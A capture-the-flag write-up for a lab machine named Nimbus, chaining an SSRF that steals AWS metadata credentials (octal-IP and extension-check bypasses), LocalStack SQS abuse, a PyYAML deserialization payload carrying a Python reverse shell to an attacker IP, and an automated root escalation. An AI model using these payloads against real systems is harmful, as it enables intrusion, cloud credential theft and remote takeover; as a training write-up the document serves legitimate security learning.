








# Nimbus Write-up

## Initial Enumeration

As with any assessment, we begin by identifying the exposed attack surface.

A full TCP scan revealed the listening services.

```bash
nmap -p- --min-rate 5000 <TARGET_IP>
```

Only two ports were exposed: **22 (SSH)** and **80 (HTTP)**. A second scan was performed to identify service versions and execute the default NSE scripts.

```bash
nmap -p22,80 -sV -sC <TARGET_IP>
```

The results identified an **OpenSSH** service and an **Nginx** web server redirecting requests to `nimbus.htb`.

```bash
echo "<TARGET_IP> nimbus.htb" | sudo tee -a /etc/hosts
```

Browsing to the application revealed that the Job Submitter was temporarily left unauthenticated during a migration window.



---

## Discovering the SSRF Vulnerability

Exploring the application revealed a feature allowing users to upload a YAML configuration or provide a remote URL through a **Preview** function.



Because the backend needed to retrieve remote resources before validating them, this immediately suggested a potential Server-Side Request Forgery (SSRF) attack surface.

The application attempted to protect itself by only allowing `.yaml` URLs while blacklisting addresses such as `localhost`, `127.0.0.1`, and `169.254.169.254`. Both protections relied on shallow validation.

### Exploiting the SSRF

To verify the vulnerability, we targeted the AWS Instance Metadata Service (IMDSv1), which exposes temporary IAM credentials.

The blacklist was bypassed by converting the metadata IP to octal notation:

```text
0251.0376.0251.0376
```

The file extension check was bypassed by appending:

```text
?file.yaml
```

The final payload became:

```text
http://0251.0376.0251.0376/latest/meta-data/iam/security-credentials/nimbus-web-role?file.yaml
```

The response disclosed temporary AWS credentials for the **nimbus-web-role** IAM role.



---

## Enumerating LocalStack

The credentials were exported into the AWS CLI environment.

```bash
export AWS_ACCESS_KEY_ID="<ACCESS_KEY>"
export AWS_SECRET_ACCESS_KEY="<SECRET_KEY>"
export AWS_SESSION_TOKEN="<SESSION_TOKEN>"
export AWS_DEFAULT_REGION="us-east-1"
```

Since the target used LocalStack, every request specified the custom endpoint.

```bash
aws --endpoint-url http://aws.nimbus.htb sqs list-queues
```

This revealed:

```text
http://floci:4566/847219365028/nimbus-jobs
```

The queue strongly suggested that another service asynchronously processed submitted jobs.

---

## Remote Code Execution

Further investigation revealed that the backend worker processed queue messages using PyYAML's unsafe `yaml.load()` function.

Unlike `yaml.safe_load()`, `yaml.load()` supports arbitrary object deserialization, allowing constructors such as `!!python/object/apply` to instantiate Python objects during parsing.

By abusing this behavior, we instructed the worker to execute `subprocess.Popen`, resulting in operating system command execution.

A malicious YAML payload containing a Python reverse shell was created and saved as `shell.yaml`.

```YAML
name: nightly-db-backup 
schedule: '* * * * *' 
runtime: python3.11 
exploit: !!python/object/apply:subprocess.Popen [ ['python3', '-c', 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER_IP>",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn("sh")'] ]
```

Start a listener:

```bash
nc -nvlp <PORT>
```

Submit the payload to the queue:

```bash
aws --endpoint-url http://aws.nimbus.htb sqs send-message \
  --queue-url "http://floci:4566/847219365028/nimbus-jobs" \
  --message-body "$(cat shell.yaml)"
```

Once the worker consumed the message, the payload was deserialized and a reverse shell connected back to our listener.

---

## User Access

The reverse shell landed inside the worker container as the **worker** user.

The user flag was then retrieved.

```bash
cat /home/worker/user.txt
```

At this stage the initial foothold on the machine had been successfully established.

## Process Enumeration

Continue enumerating the worker container to better understand the application's architecture and validate the assumptions made during exploitation.

Listing the running processes showed the services executing inside the container.

```bash
ps aux
```

The output confirmed that the container's primary process was:

```text
python3 -u worker.py
```

This indicated that a dedicated Python worker continuously processed queued jobs. The remaining `python3 -c...` processes corresponded to the reverse shell established during exploitation, confirming that the payload had been executed by the worker service rather than another component of the application.



## Application Enumeration

Having identified `worker.py` as the container's primary process, the next step was to inspect the application itself.

Navigating to the application directory revealed a minimal codebase.

```bash
cd /app
ls -la
```

Only two files were present:

- `worker.py`
- `requirements.txt`

Since the entire application logic appeared to reside within a single Python script, reviewing its source code became the natural next step in understanding how jobs were processed and ultimately why remote code execution was possible.



## Source Code Review

Reviewing the source code of `worker.py` confirmed the assumptions made during exploitation.

```bash
cat worker.py
```

The worker continuously polled the `nimbus-jobs` SQS queue, parsed incoming YAML messages using:

```python
yaml.load(..., Loader=yaml.Loader)
```

and executed the contents of the `script` field by passing it directly to:

```python
python3 -c
```

Using `yaml.load()` with untrusted input performs unsafe object deserialization, allowing arbitrary Python objects to be instantiated during parsing. This design flaw explains why the malicious YAML payload successfully achieved arbitrary code execution and confirms the root cause of the compromise.



To better understand the application's runtime behaviour, I manually executed the worker process and observed how it handled queued messages.

```bash
python3 worker.py
```

The worker immediately began polling the `nimbus-jobs` queue.

This confirmed that the worker continuously trusted and executed user-controlled job definitions retrieved from the SQS queue. Together with the unsafe use of `yaml.load()`, this behaviour fully explained why arbitrary Python code could be executed simply by submitting a crafted YAML document.



## Privilege Escalation

After validating the worker's behaviour and understanding the application's architecture, I used a custom automation script to reproduce the complete attack chain.

The script requires only the attacker's callback IP address and automatically performs the remaining stages of the exploitation process:

```bash
python3 nimbus_exploit.py <ATTACKER_IP> --port <LOCAL_PORT> --target <TARGET_IP>
```

- Retrieves fresh IAM credentials through the SSRF vulnerability.
- Authenticates to the LocalStack AWS environment.
- Generates a malicious YAML payload.
- Submits the payload to the `nimbus-jobs` SQS queue.
- Starts an HTTP callback listener.
- Triggers a privileged CodeBuild container.
- Exploits the host's `core_pattern` mechanism.
- Retrieves both the user and root flags.

Within a few seconds, the worker processed the queued payload, the privileged build completed successfully, and the callback listener received the contents of both `user.txt` and `root.txt`, demonstrating a fully automated compromise from initial SSRF to root access.


